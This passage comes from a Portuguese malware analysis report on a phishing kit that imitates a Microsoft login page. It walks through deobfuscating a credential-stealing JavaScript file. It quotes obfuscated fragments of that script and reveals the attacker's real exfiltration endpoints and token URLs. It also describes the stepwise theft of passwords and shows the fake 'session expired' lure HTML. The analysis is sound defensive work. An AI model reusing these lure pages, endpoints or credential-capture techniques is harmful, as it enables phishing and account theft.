            'VRqVY': _0x1ad82a(0x4fd),
            'OgKNq': _0x1ad82a(0x301),
            'jzxIy': _0x1ad82a(0x1ba),
            'qftFh': _0x1ad82a(0x43f),
            'rkFtX': _0x1ad82a(0x2a0),
            'UiZYU': _0x1ad82a(0x236),
            'UGRMz': _0x1ad82a(0x4ab),
            'sNGzo': _0x1ad82a(0x2d3),
            ...
```


**Figura 30. Ofuscamento de conteúdo do script.** Observado uso de variáveis e índices em funções, com uso de codificação exibindo um padrão.

#### 10.3.1. Decodificação do código

Na análise do código, foi observado em seu início, a presença de função com características de participação da decodificação, como um IIFE (Immediately Invoked Function Expression), esse, retornando um array de strings embaralhado,  utilizando um loop infinito (`while(!![])`) usado para rotacionar o array até bater um valor mágico.
No bloco analisado observou-se que a função `_0x55c104()` retorna um array de strings (URLs, palavras-chave, métodos JS etc.), sendo array armazenada na variável `_0x4c42ff`. Dentro do `try` ele chama várias vezes `_0x1164a7()` que é a função de lookup (`a0_0xec36`), em que cada chamada retorna uma string, sendo essa string transformada em número pelo `parseInt(string)` que então é somado e multiplicado para chegar à um número final. Se esse número `0x2bd63b === 0x429459`, então o loop é interrompido, caso contrário a array é girada pelo declaração`0x4c42ff.push(0x4c42ff.shift());` (`[a, b, c, d] → [b, c, d, a]`), e então o array vai sendo rotacionado até que os índices apontem para as strings corretas. 

```Bash                                                                             
┌──(kali㉿kali)-[~/Auto_Reputation/reports]
└─$ cat requisitions_beauty.js | head -20
(function(_0x55c104, _0x429459) {
    const _0x1164a7 = a0_0xec36,
        _0x4c42ff = _0x55c104();
    while (!![]) {
        try {
            const _0x2bd63b = parseInt(_0x1164a7(0x282)) / 0x1 + parseInt(_0x1164a7(0x2e7)) / 0x2 + -parseInt(_0x1164a7(0x1c2)) / 0x3 * (-parseInt(_0x1164a7(0x355)) / 0x4) + parseInt(_0x1164a7(0x361)) / 0x5 * (-parseInt(_0x1164a7(0x22e)) / 0x6) + -parseInt(_0x1164a7(0x4c4)) / 0x7 * (-parseInt(_0x1164a7(0x35b)) / 0x8) + parseInt(_0x1164a7(0x2aa)) / 0x9 * (-parseInt(_0x1164a7(0x2bd)) / 0xa) + -parseInt(_0x1164a7(0x464)) / 0xb;
            if (_0x2bd63b === _0x429459) break;
            else _0x4c42ff['push'](_0x4c42ff['shift']());
        } catch (_0xfc837f) {
            _0x4c42ff['push'](_0x4c42ff['shift']());
        }
    }
}(a0_0x5cab, 0x5530c), (function(_0xba3585, _0x14a7c8) {
    const _0x24cc3d = a0_0xec36,
        _0x5dba01 = {
            'jqckp': function(_0x2fc48f, _0x88225) {
                return _0x2fc48f(_0x88225);
            },
            'SaXPu': function(_0x126948, _0x40800a) {
                return _0x126948 - _0x40800a;
```
![**Figura 31. Bloco IIFE.** Função com características de participação da decodificação, como um IIFE (Immediately Invoked Function Expression), retornando um array de strings embaralhado,  com uso de loop infinito (`while(!![])`) para rotacionar o array até bater um valor determinado](./images/31.png)
**Figura 31. Bloco IIFE.** Função com características de participação da decodificação, como um IIFE (Immediately Invoked Function Expression), retornando um array de strings embaralhado,  com uso de loop infinito (`while(!![])`) para rotacionar o array até bater um valor determinado.

##### 10.3.1.1. Obtenção do array incial

Para obtenção do array inicial, realizou-se a criação de um novo script, nomeado de `array_inical.js` realizando o uso da impressão do array obtido pelo retorno função de criação dele `_0x55c104()` como já descrito anteriormente. No script criado a funçao é chamada anterior ao início do loop, e salvo em documento em formato `JSON`, nomedo como `array_inicial.json`.
O conteúdo array só é obtido após da execução do loop, porém ainda estará fora de ordem e codificado.

```js
(function(_0x55c104, _0x429459) {
    const _0x1164a7 = a0_0xec36,
        _0x4c42ff = _0x55c104();
        const arrayInicial = _0x55c104(); //Chamada da função de criação do array inicial
        fs.writeFileSync(
            'array_inicial.json',
            JSON.stringify(arrayInicial, null, 2),
            'utf-8'
        )
        console.log('[+] Array inicial salvo em array_inicial.json');
    while (!![]) {...
```

```json
[
  "y2r5q2i",
  "sNfoAhe",
  "B0Hlz1G",
  "DKD1yvO",
  "sKfbB0W",
  "sgrdz0S",
  "A3nhvNi",
  "tvjnvui",
  "vKPyr1C",
  "Ahr0Chm6lY9OB2XTzxm0ntyUywnLC3nVCg9YDgfSyxrLBMrPBwvUDg8UyxbWoJG0ndmVz2vUzxjHDguTDg9Rzw4",
  "DwPUtxm",
  "zwL6vw0",
  "EMPXu0i",
  "BNv5u0W",
  "rwL2yNi",
  "u21iDwG",
  "tKLdr00",
  "mJyXmdGWAuXPzhbf",
  "C0zishC",
  "s0LkDu4",
  "zwP4yLK",
  "q0Phu2e",
  ...
]
```


**Figura 32. Obtenção do array inicial.** Criação de documento array_inicial.json, contendo o array incial codificado, obtido através do retorno da função `_0x55c104()`.

##### 10.3.1.2. Reordenando a Array

Para reordenação da array, foi criado documento nomeado de `array_final.js`, que inbuia a array inicial na função `_0x55c104()` do script original, uma vez que, essa função, era usado como índice de reordenação dentro do loop, e posteriormente salvo na variável `_0x4c42ff` durante reordenamento. obtendo-se assim o array reordenado pelo chamada da variável `_0x4c42ff`, `_0x4c42ff = _0x55c104();`, sendo esse, salvo em documento `array_final.json`.


```js
function _0x55c104() {
    const arrayInicial = [
  "y2r5q2i",
  "sNfoAhe",
  "B0Hlz1G",
  "DKD1yvO",
  ...
  ]
];
    _0x55c104 = function () {
        return arrayInicial;
    }; 
    return _0x55c104();
};
```

```js
fs.writeFileSync(
        'array_final.json',
    JSON.stringify(_0x4c42ff, null, 2)
    );
    console.log('[+] Array salvo em array_final.json');
    process.exit(0);
```

```json
[
  "rvvNBha",
  "C0DRCuO",
  "vef0EuK",
  "A3H1rLm",
  "vM1tqMG",
  "yxzLvLm",
  "rM9JBuK",
  "ze1AzwS",
  "BwniDeO",
  "BK5HExy",
  "sxLQuvi",
  ...
]
```

##### 10.3.1.3. Decodificação da array final obtida

Após obtido o array reordenado pelas etapas anteriores, de acordo com o padrão apresentado por caracteres longos, suspeitou-se do uso de codificação em `Base64` para realização da codificação sendo observado o uso de dicionário explícito dentro do conteúdo do script `const _0x1e13f3 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';`, esse fora de padrões utilizados para a codificação, representando uso de alfabeto personalizado, além da presença da declaração `0x4` utilizada várias dentro da operação como especificação de trabalho em blocos de 4 caracteres, sendo multiplicada por `0x40`, represntação de hexadecimal do número 64. Observao também a presença de declaração `charAt` dentro do bloco, sendo esse, um método que retorna um caractere no índice especificado em uma string. 
Dentro do bloco, observou-se também, características de uso de codificação XOR conjunta, sendo essa realizada após a codificação em `Base64` observada pela declaração `String.fromCharCode(0xff & …)`, `0xff` representando 255 em hexadecimal, sendo uma máscara de 1 byte, conforme utilizado em codificações em XOR.

```js
 var _0x917d7 = function(_0x39c47e) {
                const _0x1e13f3 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';
                let _0x539ad4 = '',
                    _0x348f0d = '';
                for (let _0x2e9edc = 0x0, _0x158a03, _0x56f332, _0x41f54a = 0x0; _0x56f332 = _0x39c47e['charAt'](_0x41f54a++); ~_0x56f332 && (_0x158a03 = _0x2e9edc % 0x4 ? _0x158a03 * 0x40 + _0x56f332 : _0x56f332, _0x2e9edc++ % 0x4) ? _0x539ad4 += String['fromCharCode'](0xff & _0x158a03 >> (-0x2 * _0x2e9edc & 0x6)) : 0x0) {
                    _0x56f332 = _0x1e13f3['indexOf'](_0x56f332);
                }
                for (let _0x20a7c3 = 0x0, _0x10d9cc = _0x539ad4['length']; _0x20a7c3 < _0x10d9cc; _0x20a7c3++) {
                    _0x348f0d += '%' + ('00' + _0x539ad4['charCodeAt'](_0x20a7c3)['toString'](0x10))['slice'](-0x2);
                }
                return decodeURIComponent(_0x348f0d);
            };
```


**Figura 33. Bloco de codificação contida dentro do script.** Observado referências ao uso de `Base64`na codificação como a presença 64 em hexadecimal (`0x40`), e alfabeto. Observado referências ao uso de XOR para a codificação cm presença do número 255 em hexadecimal (`0xff`), evidenciando possível uso de máscara de 1 byte.

O teste de decodificação do array, foi realizada com uso de script em `Python`, com primeira decodificação utilizando o alafabeto personalizado obtido no script original, sendo o resultado obtido, decodificado com uso de XOR com troca de 1 byte, retornando documento em formato JSON com o dicionário do texto codificado salvo no documento `decoded_formatted.json`. O código da ferramenta utilizada, pode ser acessado em  [https://github.com/pcanossa/CustomBase64X_Toolkit](https://github.com/pcanossa/CustomBase64X_Toolkit).
Grande parte do conteúdo obtido após decodificação, apresentava palavras não decodificadas, representando possível índice de variáveis, para posterior decodificação, enquanto as variáveis decodificadas, revelavam importantes pontos de funcionamento do script no roubo de credenciais e comunicação com o servidor do atacante, como:
* `https://holmes456.acessoportalatendimento.app:8443/obter-chave`
* `❌ Email não encontrado no localStorage.`
* `/login?email=`
* `https://holmes456.acessoportalatendimento.app:8443/generate-token`
* `senha.php?token/` 
* `#passwd`
* `#usuario`
* `#formLogin`
Entre outros.

```json
{
    "rvvNBha": "EUglp",
    "C0DRCuO": "sGkqJ",
    "vef0EuK": "TAtyI",
    "A3H1rLm": "kxuFS",
    "vM1tqMG": "VmSBh",
    "yxzLvLm": "aveVS",
    ...
}
```

```Bash
                                                                                                              
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation/reports]
└─$ cat decoded_formatted.json  | jq . | grep -E "submit|http|link|acesso|erro|pass|sec|chave|usuario|usuário|email|Email|Password|senha|Senha|Login|login|Storage|set"

  "Ahr0Chm6lY9OB2XTzxm0ntyUywnLC3nVCg9YDgfSyxrLBMrPBwvUDg8UyxbWoJG0ndmVz2vUzxjHDguTDg9Rzw4": "https://holmes456.acessoportalatendimento.app:8443/generate-token",
  "C2v0sxrLBq": "setItem",
  "zw1HAwW": "email",
  "i2zVCM1tzw5Oyq": "#formSenha",
  "C2vUAgeUCgHWp3rVA2vUlW": "senha.php?token/",
  "y2HHDMu": "chave",
  "jNbHC3n3B3jKpq": "&password=",
  "C3vIBwL0": "submit",
  "pgrPDIbZDhLSzt0Iy29SB3i6CMvKoYi+u2vUAgeGAw5JB3jYzxrHlIbuzw50zsbUB3zHBwvUDguGB3uGCMvJDxbLCMuGC3vHihnLBMHHlJWVzgL2pG": "<div style=\"color:red;\">Senha incorreta. Tente novamente ou recupere sua senha.</div>",
  "4P2mievYCM8Gyw8GB2j0zxiGy2HHDMuGC2vJCMv0ytO": "❌ Erro ao obter chave secreta:",
  "Ahr0Chm6lY9OB2XTzxm0ntyUywnLC3nVCg9YDgfSyxrLBMrPBwvUDg8UyxbWoJG0ndmVB2j0zxiTy2HHDMu": "https://holmes456.acessoportalatendimento.app:8443/obter-chave",
  "l2XVz2LUp2vTywLSpq": "/login?email=",
  "i3bHC3n3za": "#passwd",
  "i3vZDwfYAw8": "#usuario",
  "i2zVCM1mB2DPBG": "#formLogin",
  "Ahr0Chm6lY8": "https://",
  "zxjYB3i": "error",
  "4P2mievTywLSig7dO28Gzw5JB250CMfKBYbUBYbSB2nHBfn0B3jHz2uU": "❌ Email não encontrado no localStorage.",
  "ywnLC3nV": "acesso",
  "l3zHBgLKyxrLp2vTywLSpq": "/validate?email=",
```


**Figura 34. Análise de palavras chave de interesse contidas no dicionário obtido.** Rertorno de busca com palavras chave de importância como `acesso`, `#passwd`, `#formLogin` e url com possível endpoint de envio dos dados.

##### 10.3.1.4. Obtenção de índices para substituição no código

Para a substituição do array decodificado no código original, e melhor compreensão de seu funcionamento, foi criado um índice, com as numerações hexadecimais correspondentes ao array de palavras codificadas.
Para isso, incialmente identificou-se o **offset** utilizado função de ordenação do array (`a0_0xec36`),uma vez que no bloco de ordenação, essa, era diretamente utilizada para realização da recuperação de strings (`const _0x1164a7 = a0_0xec36`, `const _0x2bd63b = parseInt(_0x1164a7(0x282)) / 0x1 + parseInt(_0x1164a7(0x2e7))...`).

```js
(function(_0x55c104, _0x429459) {
    const _0x1164a7 = a0_0xec36, //Função chamada para ordenação do array e armazenada na variável _0x1164a7
        _0x4c42ff = _0x55c104();
        console.log(_0x55c104());
    while (!![]) {
        try {
            const _0x2bd63b = parseInt(_0x1164a7(0x282)) / 0x1 + parseInt(_0x1164a7(0x2e7))... // Uso da função através da variável _0x1164a7
```

Observando o conteúdo da funçao `a0_0xec36`, foi observado o uso do padrão `_0xec360e = _0xec360e - 0x14f;`, mostrando que `índice real = índice usado - OFFSET`, sendo o **offset** definido pelo hexadecimal `0x14f`.

```js
function a0_0xec36(_0x4530c6, _0x296aa8) {
    const _0x5cabb3 = a0_0x5cab();
    return a0_0xec36 = function(_0xec360e, _0x4bf892) {
        _0xec360e = _0xec360e - 0x14f; // índice real = índice usado - offset, com offset em hexadecimal 0x14f.
        let _0x448952 = _0x5cabb3[_0xec360e];
        if (a0_0xec36['dtjUuV'] === undefined) {
            var _0x917d7 = function(_0x39c47e) {
                const _0x1e13f3 = 'abcdefg...
```

Dessa forma, quando observada o uso da função na ordenação do array, foi possível identificar sua funcionalidade como no exemplo:

```bash
index =_0x1164a7(0x282(642 em decimal)) -> index = _0x1164a7(642) -> index = 642 - 0x14f (335 em decimal) -> index = 642 - 335 -> index = 307 -> posição_array[307]
```


**Figura 35. Identificação do offset de ordenação do array para criação do índice.** Identificada a função `a0_0xec36` salva na variável `_0x4c42ff` e posteriormente chamada no bloco, para realização da ordenação do array. Observado dentro da função `a0_0xec36` o uso do offset hexadecimal `0x14f`, com uso na operação em hexadecimal `_0xec360e = _0xec360e - 0x14f`, definindo `índice real = índice usado - offset`.

Dessa forma, foi criado script, nomeado como `indice.js`, com a substituição do `_0x55c104` pelo array reodenado e a recriação da função `a0_0xec36`, realizando a conversão do índice em hexadecimal de cada componente do array reordenado, utilizando offset na operacão `índice real = índice usado + offset` , uma vez que `índice real = índice usado + offset` era a formula de codificação, portanto como engenharia reversa, realizou-se a operação com soma do índice com o offset ao invés de sua subtração, pela delcaração `const hex = (i + 0x14f).toString(16);`, retornando o índice em hexadecimal do componente do array reordenado em forma de dicionário, salvo em documento `JSON` nomeado de `indices.json`.

```js
function _0x55c104() {
    return [
  "rvvNBha",
  "C0DRCuO",
  "vef0EuK",
  "A3H1rLm",
  "vM1tqMG",
  ...
]

function a0_0xec36() {
    const arr = _0x55c104();
    let value = [];
    let array_values = [];
    let json_file = {};
    for (let i = 0; i < arr.length; i++) {
    const hex = (i + 0x14f).toString(16); //Utilização do offset como soma do índice e conversão em hexadecimal
    value.push(`(0x${hex}) -> [${i}] -> ${arr[i]}`);
    array_values.push(`"0x${hex}": "${arr[i]}"`);
    json_file = JSON.parse(`{${array_values.join(',')}}`);
}
    fs.writeFileSync(
        'indices.json', JSON.stringify(json_file, null, 2), 'utf-8'
    );
    fs.writeFileSync(
        'indices.txt', value.join('\n'), 'utf-8'
    );
    console.log(`[+] ìndices .json salvo em indices.json`);
    console.log(`[+] ìndices .txt salvo em indices.txt`);
}

a0_0xec36();
```

```json
{
  "0x14f": "rvvNBha",
  "0x150": "C0DRCuO",
  "0x151": "vef0EuK",
  "0x152": "A3H1rLm",
  "0x153": "vM1tqMG",
  "0x154": "yxzLvLm",
  "0x155": "rM9JBuK",
  "0x156": "ze1AzwS",
  "0x157": "BwniDeO",
  "0x158": "BK5HExy",
  "0x159": "sxLQuvi",
  "0x15a": "swzKtKG",
  "0x15b": "ywXOuge",
  "0x15c": "B3znvNG",
  ...
}
```

```bash
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation/reports]
└─$ cat indices.txt| head -20
(0x14f) -> [0] -> rvvNBha
(0x150) -> [1] -> C0DRCuO
(0x151) -> [2] -> vef0EuK
(0x152) -> [3] -> A3H1rLm
(0x153) -> [4] -> vM1tqMG
(0x154) -> [5] -> yxzLvLm
(0x155) -> [6] -> rM9JBuK
(0x156) -> [7] -> ze1AzwS
(0x157) -> [8] -> BwniDeO
(0x158) -> [9] -> BK5HExy
(0x159) -> [10] -> sxLQuvi
(0x15a) -> [11] -> swzKtKG
(0x15b) -> [12] -> ywXOuge
(0x15c) -> [13] -> B3znvNG
(0x15d) -> [14] -> zxn2vfa
(0x15e) -> [15] -> qvnVsvG
(0x15f) -> [16] -> q29UugO
(0x160) -> [17] -> EKPvC24
(0x161) -> [18] -> AKfkqMy
(0x162) -> [19] -> wvPUv3a
```


**Figura 36. Índices no dicionário obtido e no código original.** Representação do índice `0x2c7` do código original no dincionário obtido e sua representação no array ordenado.

##### 10.3.1.5. Substituindo texto decodificado por índices no código original

Após obtenção do índice para substituição no código original, realizou-se a substituição do texto decodificado primeiro, filtrando a correpondência da posição dentro da array final (array reordenada, salva no documento `array_final.json`), e na segunda etapa, utilizou-se o índice obtido (salvo no documento `indices.json`) na etapa anterior para substituir pelo texto codificado.
Aós substituição dos índices contidos no cósigo, pelo array reordenado, foi então, realizada a substituição de sua representação decodificada utilizando o documento dicionário do array decodificado `decoded_formatted.json`.
O script para a realização dessa operação, foi salvo no documento `desobfuscador.js`, gerando o script desobfuscado salvo no documento `script_desobfuscado.js`.

```js
const INPUT_FILE  = './requisitions_beauty.js';
const OUTPUT_FILE = 'script_desobfuscado.js';
const ARRAY_FILE  = './array_final.json';
const DICTIONARY_FILE = './decoded_formatted.json';
const OFFSET = 0x14f;

fs.readFileSync(ARRAY_FILE, 'utf-8');
const dicionario = JSON.parse(fs.readFileSync(ARRAY_FILE, 'utf-8'));
const STRINGS = dicionario;
const DICIONARIO = JSON.parse(fs.readFileSync(DICTIONARY_FILE, 'utf-8'));

let code = fs.readFileSync(INPUT_FILE, 'utf8');


code = code.replace(
  /_0x[a-f0-9]+\(\s*(0x[a-f0-9]+)\s*\)/gi,
  (match, hex) => {
    const index = parseInt(hex, 16) - OFFSET;
    const value = STRINGS[index];

    if (value === undefined) {
      // deixa como está se algo sair do range
      return match;
    }

    return JSON.stringify(value);
  }
);

for (const [key, value] of Object.entries(DICIONARIO)) {
  const search = JSON.stringify(key);
  const replacement = JSON.stringify(value);
  // Substitui todas as ocorrências da chave pelo valor
  code = code.split(search).join(replacement);
}


fs.writeFileSync(OUTPUT_FILE, code, 'utf8');

console.log(`[+] Arquivo desobfuscado salvo como ${OUTPUT_FILE}.`);
```

```js
while (!![]) {
        if (_0x257ea7["NICGM"](_0x257ea7["https://holmes456.acessoportalatendimento.app:8443/generate-token"], _0x257ea7["AzIuN"])) return _0x2fb2c4;
        else try {
            if (_0x257ea7["NICGM"](_0x257ea7["IjzRc"], _0x257ea7["IjzRc"])) {
                const _0x2a2d9f = _0x257ea7["&password="](_0x257ea7["QnJPb"](_0x257ea7["eLVil"]...
    }
```

A obtenção do script com a substituição dos índices pelo conteúdo do array decodificado, revelou algumas partes de interesse, porém ainda demonstravam alguns índices, sem padrão de codificação identificado tanto no script ou por métodos conhecidos, seguindo mesmo padrão (`_0x257ea7`, `_0x2a2d9f`) sendo assim, evidenciando possivelmente seu uso como sub índices no código.


**Figura 37. Índices substituídos pelo texto decodificado no código.** Utilização do dicionário de correspondência do array ordenado com seu conteúdo decodificado, e do dicionário de índices com correspondência ao array de texto codificado ordenado, utilizado como exemplo o índice `0x2c7`, representado pelo texto decodificado `&password=`. Observado índices codificados resquiciais ainda presentes no código (`_0x2fb2c4`, `_0x257ea7`).

##### 10.3.1.6. Substituindo índices codificados resquiciais
Para fins de facilitar a visualização final do script, com o texto decodificado, realizou-se a substituição dos índices codificados, por nomeação seriada, como `var_0`, `var_01`, `var_02`...
Para isso, realizou-se a identificação dos índices no código, pelo padrão seguido, iniciados em `_0x`, e substituídos pela nomeação mencionada, de acordo com sua sequência de aparição no código, sendo utilizado para isso, script salvo em `decodador_final.js`, retornando o script nomeado como `script_final.js`.

```js
renameVariables: function(code) {
    const varMap = new Map();
    let counter = 0;
    const varPattern = /_0x[a-f0-9]{4,6}/g;
    const matches = code.match(varPattern);
    
    if (matches) {
      const uniqueVars = [...new Set(matches)];
      uniqueVars.forEach(varName => {
        varMap.set(varName, `var_${counter++}`);
      });
      
      varMap.forEach((newName, oldName) => {
        const regex = new RegExp(oldName.replace(/[.*+?^${}()|[\]\\]/g, '\\$&'), 'g');
        code = code.replace(regex, newName);
      });
    }
    return code;
  },
```

```js
while (!![]) {
    if (var_560["NICGM"](var_560["https://holmes456.acessoportalatendimento.app:8443/generate-token"], var_560["AzIuN"])) return var_680;
    else try {
      if (var_560["NICGM"](var_560["IjzRc"], var_560["IjzRc"])) {
        const var_681 = var_560["&password="](var_560["QnJPb"](var_560["eLVil"](var_560["yaVlN"]
        ...
```


**Figura 38. Código com índices resquiciais substituído.** Substituição de índices / texto codificado resquicial, por nomeação seriada, conforme como o ocorrido no exemplo `0x2fb2c4` e `_0x2a2d9f`, respectivamente por `var_680` e `var_681`.

##### 10.3.2. Pontos de importância observados no código

O conteúdo, mesmo após todo método de decodificação, anda apresenta seguidos encapsulamentos de funções dentro de funções e variáveis, o que impossibilita a completa decodificação, entretanto, o conteúdo obtivo, revela pontos importantes dos métodos utilizados pelo atacante no golpe de roubo de credenciais, como:

* **Infraestrutura e Conexões (URLs e Domínios)**
Estes são os endereços para onde o script envia dados ou de onde busca configurações.
  * **Domínio Principal:** `https://holmes456.acessoportalatendimento.app:8443`
  * **Geração de Token:** `https://holmes456.acessoportalatendimento.app:8443/generate-token`,
  * **Obtenção de Chave:** `https://holmes456.acessoportalatendimento.app:8443/obter-chave`
  * **Outros fragmentos:** `holmes456.`, `verificacentral.`, `.app`, `.com`
<br>

* **Endpoints e Estrutura de Navegação**
Caminhos utilizados para processar as informações capturadas.
  * `/login?email=`: Captura inicial do e-mail
  * `/validate?email=`: Validação da conta
  * `senha.php?token/`: Provável página de captura de senha atrelada a um token
  * `/final`: Página de redirecionamento após o sucesso do ataque
<br>

* **Mensagens de Interface (UI) e Erros**
Essas strings revelam o comportamento do site para o usuário final, simulando erros legítimos para obter a senha correta.
  **Alertas de Erro**:
  * "Conta Microsoft não encontrada. Atualize a página."
  * "Senha incorreta. Tente novamente ou recupere sua senha."
  * "❌ Erro na requisição AJAX"
  * "❌ Chave não encontrada na resposta do servidor."
  * "❌ Email não encontrado no localStorage."
  **Status de Processamento:**
  * "Validando..."
  * "Aguarde..."
  * "protegido"
<br>

* **Seletores de Elementos (DOM)**
Identificadores usados pelo JavaScript para interagir com os campos do formulário HTML.
  * **Formulários:** `#formLogin`, `#formSenha`
  * **Campos de Entrada:** `#usuario`, `#passwd`, `email`, `token`
  **Botões de Feedback:**
  * `#idSIButton9` (ID clássico do botão de "Avançar/Entrar" da Microsoft)
  * `#msgErro`
  * `#loadingGif`
  * `#popup_status`
<br>

* **Funções e Métodos Técnicos**
Palavras-chave que indicam como o script manipula os dados localmente.
  * **Persistência:** `setItem`, `getItem`, `localStorage` (Uso de localStorage para manter o e-mail entre páginas).
  * **Lógica de Envio:** `ajax`, `json`, `responseText`, `submit`, `preventDefault`.
* **Segurança/Ofuscação:** `randomUUID`, `shift`, `chave`, `token`

Dessa forma o script parece funcionar em etapas:
1. **Fase de Coleta:** Identifica o usuário (`#usuario`), valida se o e-mail existe e o armazena no navegador. 
2. **Fase de Tokenização:** Solicita uma chave secreta e um token ao servidor remoto (`/generate-token`).
3. **Fase de Phishing:** Apresenta o formulário de senha (`#formSenha`), valida a entrada e, em caso de "erro" proposital, força o usuário a digitar novamente para garantir a precisão da senha capturada.
4. **Exfiltração:** Envia os dados para o endpoint final e encerra a sessão.

```js
while (!![]) {
    if (var_560["NICGM"](var_560["https://holmes456.acessoportalatendimento.app:8443/generate-token"], var_560["AzIuN"])) return var_680;
    else try {
      if (var_560["NICGM"](var_560["IjzRc"], var_560["IjzRc"])) {
        const var_681 = var_560["&password="](var_560["QnJPb"](var_560["eLVil"](var_560["yaVlN"](var_560["HCEGj"](var_560["kSIiS"](var_560["iLjro"](var_560["iSgPI"](-var_560["xBHJs"](parseInt, var_560["tNmpn"](var_678, 0x103)), 1), var_560["pCqRx"](var_560["TcTgs"](parseInt, var_560["DNTph"](var_678, 0x108)), 2)), var_560["Gqjai"](var_560["mbDzF"](parseInt, var_560["LBt31Ce8OJwJM5j9z"](var_678, 0xe8)), 3)), var_560["pCqRx"](var_560["eZTDx"](parseInt, var_560["QstVM"](var_678, 0x109)), 4)), var_560["LRONF"](var_560["xBHJs"](parseInt, var_560["preventDefault"](var_678, 0xfb)), 5)), var_560["fsOiw"](var_560["1763382FIPTta"](parseInt, var_560["html"](var_678, 0xce)), 6)), var_560["MheyM"](-var_560["tNmpn"](parseInt, var_560["IyjQR"](var_678, 0x10b)), 7)), var_560["iLjro"](var_560["hylnh"](var_560["<div style=\"color:red;">Senha incorreta. Tente novamente ou recupere sua senha.</div>"](parseInt, var_560["wjALd"](var_678, 0x105)), 8), var_560["YLEDu"](-var_560["yhXoM"](parseInt, var_560["baAHR"](var_678, 0xe2)), 9)));
        if (var_560["NICGM"](var_681, var_558)) break;
        else var_679[var_560["mgpPc"](var_676, 0x1f7)](var_679[var_560["OgKNq"](var_677, 0xfa)]());
        ...
```

**Figura 39. Exemplo de trecho contendo palavras suspeitas e relação com atividade maliciosa.** Possível trecho do código, relacionado à obtenção da senha, geração de token de identificação e envio.

### 10.4. Análise de documentos HTML

A análise do código HTML, evidencia uma composição em três camadas bem claras, a camada visual, para aplicação da engenharia social, a camada de coleta de credenciais e a camada de evasão, com mecanismos que dificultem a análise por mecanismos de scans e defesa.
Dentro de seu ocnteúso, observa-se a chamada do script anteriormente analisado, o `requisitions.js`, esse por sua vez, participando na camada 2, conforme observado pelo conteúdo do mesmo.
O conteúdo HTML também permitiu observar, algumas características de produção automatizada, evidenciado pelo título gerado automaticamente a ser personalizado `Modal Personalizado`, não trocado pelo atacante, e pela presença de comentários em todos os blocos, típico de geração por ferramentas LLM como `lovable`, que não corroboram com quem queira ocultar o conteúdo malicioso, entretanto, que esteja utilizando o kit phishig pronto, sem realizar sua revisão antes de iniciar o golpe. 

### 10.4.1. Camada de engenharia social

Na camada de engenharia social, foi observado a aplicação de mecanismo que remetam a urgência pela página, mimetizando comportamento legítimo de autenticaçao de conta pela **Microsoft Live**, para que o usuário realize o login rapidamente sem verificar a URL. A página inicia apresentando comunicado de que a sessão foi expirada, justificando o pedido do login posterior a ele.

```HTML
<div id="modal">
    
    <h2>Sessão Expirada</h2>
    <p>A sua sessão expirou devido à inatividade.<br>Para continuar acessando o site, por favor, faça o login novamente.</p>
</div>
```

```HTML
<!-- Original content from the uploaded index.php -->
    </div>
    <script>
        // Esconde o modal após 5 segundos e remove o blur
        setTimeout(() => {
            const modal = document.getElementById('modal');
            const content = document.getElementById('content');
            modal.style.opacity = '0'; // Faz o modal desaparecer gradualmente
            content.style.filter = 'none'; // Remove o blur do conteúdo
            setTimeout(() => {
                modal.style.display = 'none'; // Remove completamente o modal após o fade-out
            }, 1000); // Tempo para o fade-out terminar
        }, 1000);
    </script>
```
**Observação**: Comentário do trecho acima, presentes no documento original.

